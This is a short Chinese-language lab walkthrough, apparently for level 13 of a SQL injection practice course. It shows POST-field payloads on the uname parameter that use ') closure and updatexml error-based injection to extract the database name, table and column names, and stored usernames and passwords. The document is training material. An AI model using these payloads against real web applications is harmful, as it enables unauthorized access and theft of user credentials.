





# Less13

　　这关关于')闭合报错post注入

　　判断是否存在注入（uname 注入，passwd 随便填）：
uname=1' and 1=1 --+  → flag
uname=1' and 1=2 --+  → slap
　　报错说明存在注入

　　使用之前方法：')union select 1,group_concat(username ,id , password) from users --+

　　只显示登陆成功，并没有想要的数据

　　这里应该使用报错注入：

　　判断库名：') and updatexml(1,concat(0x7e,(select database())),1) --+

　　判断表名：') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) --+

　　判断列名：') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')),1) --+

　　判断数据：') and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)),1) --+

